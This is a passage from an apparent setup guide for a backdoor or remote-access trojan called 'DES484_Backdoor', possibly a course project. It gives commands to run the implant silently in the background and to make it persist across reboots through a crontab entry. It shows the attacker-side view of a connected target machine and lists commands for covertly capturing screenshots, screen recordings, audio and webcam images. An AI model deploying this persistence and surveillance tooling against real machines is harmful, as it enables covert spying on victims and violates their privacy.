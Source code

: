 **Option 2: Background execution:**

```bash
# Run in background
nohup python3 server.py > /dev/null 2>&1 &

# Or with systemd (Linux)
python3 server.py &
disown
```

**Option 3: Scheduled execution:**

```bash
# Add to crontab (runs every reboot)
(crontab -l 2>/dev/null; echo "@reboot python3 /tmp/DES484_Backdoor/server.py") | crontab -
```

#### 4.3 Verify Connection

On attacker machine, you should see:

```
[+] Connection established from 192.168.1.50:54321

=== System Information ===
Hostname: target-machine
System: Linux
Release: 5.15.0
...
```

### Phase 5: Testing Features

#### Quick Command Reference

**Screen & Media Capture:**
| Command | Description | Example |
|---------|-------------|---------|
| `screenshot` | Capture single screenshot | `screenshot` |
| `screenshot_multi <count> <interval>` | Multiple screenshots | `screenshot_multi 5 2` |
| `screenshot_list` | List all screenshots | `screenshot_list` |
| `record_screen <duration> <fps>` | Record screen (timed) | `record_screen 30 15` |
| `record_start <max_duration>` | Start background recording | `record_start 3600` |
| `record_stop` | Stop background recording | `record_stop` |
| `record_status` | Check recording status | `record_status` |
| `record_list` | List all recordings | `record_list` |
| `audio_record <seconds>` | Record audio | `audio_record 10` |
| `audio_list` | List audio recordings | `audio_list` |
| `webcam_snap` | Capture webcam image | `webcam_snap` |

